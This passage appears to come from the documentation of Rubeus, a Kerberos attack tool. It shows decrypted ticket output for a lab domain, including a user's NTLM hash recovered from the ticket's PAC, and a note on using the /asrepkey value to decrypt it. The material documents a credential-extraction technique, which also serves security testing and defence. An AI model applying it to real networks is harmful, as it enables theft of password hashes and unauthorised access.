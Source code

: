           LogonTime            : 19/07/2021 22:59:21
          LogoffTime           :
          KickOffTime          :
          PasswordLastSet      : 14/07/2021 02:07:12
          PasswordCanChange    : 15/07/2021 02:07:12
          PasswordMustChange   :
          EffectiveName        : harmj0y
          FullName             : Harm J0y
          LogonScript          :
          ProfilePath          :
          HomeDirectory        :
          HomeDirectoryDrive   :
          LogonCount           : 7
          BadPasswordCount     : 0
          UserId               : 1106
          PrimaryGroupId       : 513
          GroupCount           : 1
          Groups               : 513
          UserFlags            : (32) EXTRA_SIDS
          UserSessionKey       : 0000000000000000
          LogonServer          : PDC1
          LogonDomainName      : RUBEUS
          LogonDomainId        : S-1-5-21-3237111427-1607930709-3979055039
          UserAccountControl   : (528) NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
          ExtraSIDCount        : 1
          ExtraSIDs            : S-1-18-1
          ResourceGroupCount   : 0
        CredentialInfo         :
          Version              : 0
          EncryptionType       : rc4_hmac
          CredentialData       :
            CredentialCount    : 1
              NTLM             : C69A7EA908898C23B72E65329AF7E3E8
        ClientName             :
          Client Id            : 19/07/2021 23:00:38
          Client Name          : harmj0y
        UpnDns                 :
          DNS Domain Name      : RUBEUS.GHOSTPACK.LOCAL
          UPN                  : harmj0y@rubeus.ghostpack.local
          Flags                : 0
        ServerChecksum         :
          Signature Type       : KERB_CHECKSUM_HMAC_MD5
          Signature            : ADEC4A1A7DF70D0A61047E510E778454 (VALID)
        KDCChecksum            :
          Signature Type       : KERB_CHECKSUM_HMAC_SHA1_96_AES256
          Signature            : 6CF688E02147BEEC168E0125 (UNVALIDATED)

**Note The `/asrepkey` from the TGT retrival must be passed to decrypted the CredentialData section where the NTLM hash is stored but the `/servicekey` argument is not required here as the session key from the TGT is being used because it is a user-to-user request.

### renew
